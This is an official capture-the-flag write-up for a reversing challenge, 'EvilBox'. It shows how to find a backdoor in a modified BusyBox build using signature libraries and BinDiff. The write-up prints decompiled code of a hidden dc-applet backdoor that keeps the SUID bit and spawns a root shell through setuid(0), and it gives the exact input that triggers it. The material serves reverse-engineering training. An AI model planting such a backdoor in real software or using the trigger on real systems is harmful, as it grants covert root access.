


<font size="5">EvilBox</font>

  15<sup>th</sup> 5 2025

  Prepared By: FizzBuzz101

  Challenge Author: FizzBuzz101

  Difficulty: <font color=orange>Medium</font>

  Classification: Official


### Skills Required
- Intermediate Reverse Engineering Abilities
- Signature Library Building (FLIRT/SigKit)
- Binary Diffing (Bindiff/Diaspora)
- Rudimentary Calculus Knowledge

### Skills Learned
- Utilizing binary signature recognition to recover symbols
- Finding a backdoor in a FOSS binary through bindiffing

## Overview
Evilbox is a Medium reversing challenge. It contains a backdoored version of the popular BusyBox FOSS shell. Players should use tools such as FLIRT/Sigkit to recreate a symbolized build of the software and build a function identification database, and then use binary diffing tools such as Bindiff/Diaspora to find the backdoor function.


# Solution

## Preliminary Analysis
As the description of the challenge implies, we have a backdoored Busybox build. On the remote end, the player is dropped in a low-privileged shell. The goal is to escalate to root privileges with the backdoor. Let's first try to find some build information. The binary itself is dynamically linked and stripped. Players are also provided a config file.

Running Busybox alone informs us of a version hint: `BusyBox v1.36.1337.Volyana67 () multi-call binary.` It is most likely a 1.36 build of Busybox. We can also figure out the compiler version from the .comment section, which mentions `GCC: (Ubuntu 11.4.0-1ubuntu1~22.04) 11.4.0`. Now, we can create a similar build of Busybox with the given config.

## Building Function Signature Database
The Github mirror shows a branch called 1_36_stable, which will be sufficient for this challenge: [https://github.com/mirror/busybox/tree/1_36_stable](https://github.com/mirror/busybox/tree/1_36_stable).

For this writeup, I will be using Binary Ninja with SigKit and Bindiff. After building with gcc-11 on Ubuntu 22.04 using the provided config, we can open it up in Binja. As noted in the description, optimization for compilation was disabled (to make the challenge easier). One can go to `Makefile.flags` and perform the following change to achieve this:
```diff
diff --git a/Makefile.flags b/Makefile.flags
index 1cec5ba20..0db646123 100644
--- a/Makefile.flags
+++ b/Makefile.flags
@@ -87,14 +87,14 @@ endif
 #CFLAGS += $(call cc-option,-Wconversion,)
 
 ifneq ($(CONFIG_DEBUG),y)
-CFLAGS += $(call cc-option,-Oz,$(call cc-option,-Os,$(call cc-option,-O2,)))
+CFLAGS += $(call cc-option,-O0,)
 else
 CFLAGS += $(call cc-option,-g,)
 #CFLAGS += "-D_FORTIFY_SOURCE=2"
 ifeq ($(CONFIG_DEBUG_PESSIMIZE),y)
 CFLAGS += $(call cc-option,-O0,)
 else
-CFLAGS += $(call cc-option,-Oz,$(call cc-option,-Os,$(call cc-option,-O2,)))
+CFLAGS += $(call cc-option,-O0,)
 endif
 endif
 ifeq ($(CONFIG_DEBUG_SANITIZE),y)
```

Let the analysis run through on the `busybox_unstripped` build analysis, and then run Generate Signature Library from Plugins -> Signature Library.

Then we bring the signature accordingly into the Binja directories, open the provided busybox, and wait for the signatures to be applied. 

You should see many function signatures populate afterwards

## Bindiffing

For BinDiffing, we need to first setup BinExport in Binja to export the required data. Now, for whatever reason, BinExport is notoriously hard to install for Binja, and you pretty much have to manually build the plugin (and the API compatibility breaks somewhat frequently). Refer to this [gist](https://gist.github.com/psifertex/31d9bc3167eca91e466ebaae4382521c) for setup.

We then make a new workspace in BinDiff, and just import the 2 BinDiff files (the unstripped one acted as the primary, while the provided one acted as the secondary). Then open the BinDiff result in Binary Ninja with the [BinDiff Viewer Plugin](https://github.com/PistonMiner/binaryninja-bindiff-viewer). BinDiff will allow us to also easily check the diffs in disassembly (but there does seem to be some mistakes). I believe IDA supports this natively as well as decompilation diffing.

Here is our preliminary results in both BinDiff and the Binja plugin.



Wow! 99% similarity! Only `run_applet_no_and_exit` and `mod` look a bit more different.

In the Busybox we built, `run_applet_no_and_exit` looked like this:
```
00008d4a  void run_applet_no_and_exit(int32_t arg1, uint64_t arg2, int64_t* arg3) __noreturn

00008d67      applet_name = arg2
00008d7c      show_usage_if_dash_dash_help(arg1, arg3)
00008d87      check_suid(arg1)
00008dc6      xfunc_error_retval = (&applet_main)[sx.q(arg1)](zx.q(string_array_len(arg3)), arg3)
00008dcc      xfunc_die()
00008dcc      noreturn
```

What Bindiff matched as `run_applet_no_and_exit` looked like the following:
```
00008d4a  void run_applet_no_and_exit(int32_t arg1, char* arg2, int64_t* arg3) __noreturn

00008d67      data_900b0 = arg2
00008d7c      show_usage_if_dash_dash_help(arg1, arg3)
00008d7c      
00008d9a      if (strcmp(arg2, &data_847b6) != 0)
00008da2          check_suid(arg1)
00008da2      
00008de1      data_90010 = (&data_8f170)[sx.q(arg1)](zx.q(string_array_len(arg3)), arg3)
00008de7      sub_9b78()
00008de7      noreturn
```
data_847b6 is the string "dc". In the given config file, `CONFIG_FEATURE_SUID` is enabled. According to Busybox documentation, this means that given a Busybox with the SUID bit set, it will drop the SUID bit whenever executing an applet that doesn't require SUID permissions. Indeed, this behavior can be verified in [source](https://elixir.bootlin.com/busybox/1.36.1/source/libbb/appletlib.c#L966). From source, we also know that the second argument is the name of the applet. Effectively, this function has been patched to not drop SUID for the `dc` applet, an RPN calculator (which definitely does not need SUID bit). This implies that the backdoor will be hiding in `dc` relevant code.

`mod` in the busybox we built look like the following:
```
0000e0e5  uint64_t mod()

0000e0ed      double zmm0 = pop()
0000e0fa      int64_t var_10
0000e0fa      
0000e0fa      if (zmm0 >= 9.2233720368547758e+18)
0000e128          var_10 = int.q(zmm0 - 9.2233720368547758e+18) ^ 0x8000000000000000
0000e0fa      else
0000e101          var_10 = int.q(zmm0)
0000e101      
0000e13d      if (var_10 == 0)
0000e149          bb_simple_error_msg()
0000e14e          pop()
0000e15f          return push(0)
0000e15f      
0000e166      double zmm0_2 = pop()
0000e173      int64_t rax_4
0000e173      
0000e173      if (zmm0_2 >= 9.2233720368547758e+18)
0000e197          rax_4 = int.q(zmm0_2 - 9.2233720368547758e+18) ^ 0x8000000000000000
0000e173      else
0000e175          rax_4 = int.q(zmm0_2)
0000e175      
0000e19f      uint64_t temp1_1 = modu.dp.q(0:rax_4, var_10)
0000e1aa      double rax_7
0000e1aa      
0000e1aa      if (temp1_1 s< 0)
0000e1cc          zmm0_2 = float.d(temp1_1 u>> 1 | zx.q(temp1_1.d & 1))
0000e1d5          rax_7 = zmm0_2 + zmm0_2
0000e1aa      else
0000e1b5          rax_7 = float.d(temp1_1)
0000e1b5      
0000e1df      return push(rax_7)
```

What BinDiff matched as mod looked like the following:
```
0000e4ae  uint64_t sub_e4ae()

0000e4b6      sub_e022()
0000e4bb      double zmm0 = sub_e336()
0000e4c8      int64_t var_10
0000e4c8      
0000e4c8      if (zmm0 >= 9.2233720368547758e+18)
0000e4f6          var_10 = int.q(zmm0 - 9.2233720368547758e+18) ^ 0x8000000000000000
0000e4c8      else
0000e4cf          var_10 = int.q(zmm0)
0000e4cf      
0000e50b      if (var_10 == 0)
0000e517          sub_9b1e()
0000e51c          sub_e336()
0000e52d          return sub_e2e2(0)
0000e52d      
0000e534      double zmm0_2 = sub_e336()
0000e541      int64_t rax_4
0000e541      
0000e541      if (zmm0_2 >= 9.2233720368547758e+18)
0000e565          rax_4 = int.q(zmm0_2 - 9.2233720368547758e+18) ^ 0x8000000000000000
0000e541      else
0000e543          rax_4 = int.q(zmm0_2)
0000e543      
0000e56d      uint64_t temp1_1 = modu.dp.q(0:rax_4, var_10)
0000e578      double rax_7
0000e578      
0000e578      if (temp1_1 s< 0)
0000e59a          zmm0_2 = float.d(temp1_1 u>> 1 | zx.q(temp1_1.d & 1))
0000e5a3          rax_7 = zmm0_2 + zmm0_2
0000e578      else
0000e583          rax_7 = float.d(temp1_1)
0000e583      
0000e5ad      return sub_e2e2(rax_7)

```

Note the extra call to `sub_e022`. Given the existing symbols and the configuration, we know that this build of Busybox is relying on [miscutils/dc.c](https://elixir.bootlin.com/busybox/1.36.1/source/miscutils/dc.c) (on the default configuration, dc is covered code-wise by the much more complex bc). From some source reading, we know that all values in this RPN calculator stack are stored as doubles.

`sub_e022` looks like the following right off the bat:
```
0000e022  int64_t sub_e022()

0000e02e      void* fsbase
0000e02e      int64_t rax = *(fsbase + 0x28)
0000e053      void s
0000e053      __builtin_memset(&s, c: 0, n: 0x80)
0000e05e      uint64_t var_98 = 0x3fe68b3700474d9c
0000e06f      uint64_t var_90 = -0x40614a0a0f4d7add
0000e080      uint64_t var_88 = -0x401c3e35c5b4aa97
0000e091      uint64_t var_80 = 0x3fce2656abde3fbc
0000e0a2      uint64_t var_78 = -0x403a72324c836651
0000e0b3      uint64_t var_70 = -0x404b9042d8c2a455
0000e0c4      uint64_t var_68 = 0x3fca7eb6bf444e0e
0000e0d5      uint64_t var_60 = -0x4016e0114d2f5dbc
0000e0e6      uint64_t var_58 = -0x40467c17a89331a1
0000e0f7      uint64_t var_50 = 0x3fca7eb6bf444e0e
0000e108      uint64_t var_48 = 0x3fce2656abde3fbc
0000e119      uint64_t var_40 = -0x401bd24e160d887f
0000e12a      uint64_t var_38 = 0x3fe6e965f5275eea
0000e13b      uint64_t var_30 = -0x404e1bf37b8d3f18
0000e14c      uint64_t var_28 = 0x3fe91feeb2d0a244
0000e15d      uint64_t var_20 = -0x40175ac258d5842b
0000e15d      
0000e172      if (data_900e0 u> 0xf)
0000e178          int32_t var_13c_1 = 0
0000e18c          int32_t var_138_1 = data_900e0 - 0x10
0000e18c          
0000e212          while (true)
0000e212              if (var_138_1 u>= data_900e0)
0000e218                  char var_13d_1 = 1
0000e218                  
0000e27a                  for (int32_t i = 0; i u<= 0xf; i += 1)
0000e243                      uint128_t zmm0
0000e243                      zmm0.q = *(&s + (zx.q(i) << 3)) f- (&var_98)[zx.q(i)]
0000e25f                      uint64_t rax_10
0000e25f                      rax_10.b = 0x3f1a36e2eb1c432d f> _mm_and_pd(zx.o(0x7fffffffffffffff), zmm0).q
0000e269                      uint32_t rax_12
0000e269                      rax_12.b = (zx.d(rax_10.b) & zx.d(var_13d_1)) != 0
0000e26c                      var_13d_1 = rax_12.b
0000e26c                  
0000e281                  if (var_13d_1 == 0)
0000e281                      break
0000e281                  
0000e28a                  char const* const var_128 = "/bin/sh"
0000e28f                  int64_t var_120 = 0
0000e29d                  setuid(uid: 0)
0000e2a7                  setgid(gid: 0)
0000e2b9                  hush_main(1, &var_128)
0000e2b9                  noreturn
0000e2b9              
0000e1a3              uint64_t var_130_1 = (&data_900e8)[zx.q(var_138_1)]
0000e1a3              
0000e1bb              if (var_130_1 f> 0x3ff0000000000000)
0000e1bb                  break
0000e1bb              
0000e1cf              if (-0x4010000000000000 f> var_130_1)
0000e1cf                  break
0000e1cf              
0000e1d5              int32_t rbx_1 = var_13c_1
0000e1dc              var_13c_1 = rbx_1 + 1
0000e1fb              *(&s + (zx.q(rbx_1) << 3)) = sub_df34(0x3e8, var_130_1).q
0000e200              var_138_1 += 1
0000e200      
0000e2d2      if (rax == *(fsbase + 0x28))
0000e2e1          return rax - *(fsbase + 0x28)
0000e2e1      
0000e2d4      __stack_chk_fail()
0000e2d4      noreturn

```

We can greatly clean this up after some clicks to redisplay some hex constants as doubles and some standard reversing re-typing. Moreover, by comparing to source and looking at how it is used in nearby functions, it becomes clear that data_900e0 refers to the length of the RPN stack. We can also clearly see the call to `hush_main` with `/bin/sh` as the argument with the `setuid` and `setgid` calls, making this clearly the backdoor. Lastly, the `_mm_and_pd` is computed on the difference between 2 doubles and 0x7fffffffffffffff - the intrinsic is for bitwise AND, so this is clearing the sign bit of the difference (the absolute value function).

Here is the code cleaned up:
```
0000e022  int64_t sub_e022()

0000e02e      void* fsbase
0000e02e      int64_t rax = *(fsbase + 0x28)
0000e053      double s[0x10]
0000e053      __builtin_memset(&s, c: 0, n: 0x80)
0000e05e      double var_98[0x10]
0000e05e      var_98[0] = 0x3fe68b3700474d9c
0000e06f      var_98[1] = -0x40614a0a0f4d7add
0000e080      var_98[2] = -0x401c3e35c5b4aa97
0000e091      var_98[3] = 0x3fce2656abde3fbc
0000e0a2      var_98[4] = -0x403a72324c836651
0000e0b3      var_98[5] = -0x404b9042d8c2a455
0000e0c4      var_98[6] = 0x3fca7eb6bf444e0e
0000e0d5      var_98[7] = -0x4016e0114d2f5dbc
0000e0e6      var_98[8] = -0x40467c17a89331a1
0000e0f7      var_98[9] = 0x3fca7eb6bf444e0e
0000e108      var_98[0xa] = 0x3fce2656abde3fbc
0000e119      var_98[0xb] = -0x401bd24e160d887f
0000e12a      var_98[0xc] = 0x3fe6e965f5275eea
0000e13b      var_98[0xd] = -0x404e1bf37b8d3f18
0000e14c      var_98[0xe] = 0x3fe91feeb2d0a244
0000e15d      var_98[0xf] = -0x40175ac258d5842b
0000e15d      
0000e172      if (stacklen_900e0 u> 0xf)
0000e178          int32_t var_13c_1 = 0
0000e18c          int32_t var_138_1 = stacklen_900e0 - 0x10
0000e18c          
0000e212          while (true)
0000e212              if (var_138_1 u>= stacklen_900e0)
0000e218                  char var_13d_1 = 1
0000e218                  
0000e27a                  for (int32_t i = 0; i u<= 0xf; i += 1)
0000e243                      uint128_t zmm0
0000e243                      zmm0.q = s[zx.q(i)] f- zx.o(var_98[zx.q(i)])[0]
0000e25f                      uint64_t rax_10
0000e25f                      rax_10.b = 0.0001 f> _mm_and_pd(zx.o(0x7fffffffffffffff), zmm0)[0]
0000e269                      uint32_t rax_12
0000e269                      rax_12.b = (zx.d(rax_10.b) & zx.d(var_13d_1)) != 0
0000e26c                      var_13d_1 = rax_12.b
0000e26c                  
0000e281                  if (var_13d_1 == 0)
0000e281                      break
0000e281                  
0000e28a                  char* var_128[0x2]
0000e28a                  var_128[0] = "/bin/sh"
0000e28f                  var_128[1] = 0
0000e29d                  setuid(uid: 0)
0000e2a7                  setgid(gid: 0)
0000e2b9                  hush_main(1, &var_128)
0000e2b9                  noreturn
0000e2b9              
0000e1a3              uint64_t var_130_1 = (&stack_900e8)[zx.q(var_138_1)]
0000e1a3              
0000e1bb              if (var_130_1 f> zx.o(1)[0])
0000e1bb                  break
0000e1bb              
0000e1cf              if (-1 f> var_130_1)
0000e1cf                  break
0000e1cf              
0000e1d5              int32_t rbx_1 = var_13c_1
0000e1dc              var_13c_1 = rbx_1 + 1
0000e1fb              s[zx.q(rbx_1)] = sub_df34(0x3e8, var_130_1).q
0000e200              var_138_1 += 1
0000e200      
0000e2d2      if (rax == *(fsbase + 0x28))
0000e2e1          return rax - *(fsbase + 0x28)
0000e2e1      
0000e2d4      __stack_chk_fail()
0000e2d4      noreturn
```

This backdoor ensures that the stack length is at least 16 in length, and that all the last 16 inputs are between -1 and 1. For each character, it stores the result of sub_df34. The results of these computation have to equal the series of floats in var_98.

Let us now take a look at `sub_df34`:
```
0000df34  int64_t sub_df34(int32_t arg1, int64_t arg2 @ zmm0)

0000df3c      int64_t x = arg2
0000df4a      int64_t result = (zx.o(0)).q
0000df56      int64_t x_1 = x
0000df5c      char var_25 = 0
0000df5c      
0000e007      for (int32_t i = 0; i s< arg1; i += 1)
0000df89          double var_10_1 = x_1 f/ float.d(i * 2 + 1)
0000df89          
0000df94          if (var_25 == 0)
0000dfaa              arg2 = result f+ var_10_1
0000df94          else
0000df9c              arg2 = result f- var_10_1
0000df9c          
0000dfb0          result = arg2
0000dfbd          uint32_t rax_4
0000dfbd          rax_4.b = zx.d(var_25) != 0
0000dfca          var_25 = (rax_4.b ^ 1) & 1
0000dff4          x_1 = pow(x, y: 2) f* x_1
0000dff4      
0000e021      return result
```

This might be a confusing function to look at, but if you break it down, you will arrive at the following pseudo code:
```
sum = 0
for i in range(arg1):
   sum = (-1)^i * arg2^i / (2i + 1)
```

For those in the know, this is just the Taylor/Maclaurin series expansion of the arctan(x) function (I hope you remember your calculus). This is why the stack inputs were bounded to be close to 0. In fact, even ChatGPT 4o can deduce this, and o1 can figure this out without any fiddling or further prompting.

## Triggering the Backdoor

We can use tangent to thus derive the flag then. Let's first convert the raw qwords into doubles:
```c
    int64_t arr[0x10] = {
        0x3fe68b3700474d9c,
        -0x40614a0a0f4d7add,
        -0x401c3e35c5b4aa97,
        0x3fce2656abde3fbc,
        -0x403a72324c836651,
        -0x404b9042d8c2a455,
        0x3fca7eb6bf444e0e,
        -0x4016e0114d2f5dbc,
        -0x40467c17a89331a1,
        0x3fca7eb6bf444e0e,
        0x3fce2656abde3fbc,
        -0x401bd24e160d887f,
        0x3fe6e965f5275eea,
        -0x404e1bf37b8d3f18,
        0x3fe91feeb2d0a244,
        -0x40175ac258d5842b};
    double ans[0x10];
    memcpy(&ans, &arr, sizeof(ans));
```

Then, let us run the tangent function and get the results:
```c
    for (int i = 0; i < 0x10; i++) {
        printf("%lf ", tan(ans[i]));
    }
    puts("%");
```

Sending in the following command into `dc` should give us a root shell now and read the flag from remote:
`0.850000 -0.030000 -0.710000 0.240000 -0.170000 -0.080000 0.210000 -0.999500 -0.100000 0.210000 0.240000 -0.730000 0.870000 -0.070000 0.999500 -0.970000 %`

```
customer@Volyana67:/home/customer$ dc
0.850000 -0.030000 -0.710000 0.240000 -0.170000 -0.080000 0.210000 -0.999500 -0.100000 0.210000 0.240000 -0.730000 0.870000 -0.070000 0.999500 -0.970000 %
root@Volyana67:/home/customer# id
uid=0(root) gid=0(root) groups=1000(customer)
root@Volyana67:/home/customer# cat /root/flag.txt
HTB{redacted}
```

## A Note on Tooling
[BinDiff](https://github.com/google/bindiff) and [BinExport](https://github.com/google/binexport) are fully FOSS from Google. BinExport supports GHIDRA, and BinDiff has its own native disassembly UI. GHIDRA also has its own version of FLIRT/SigKit called [FidDb](https://github.com/NationalSecurityAgency/ghidra/blob/master/Ghidra/Features/FunctionID/data/building_fid.txt). R2 also has its own version called [Zignatures](https://book.rada.re/signatures/zignatures.html).
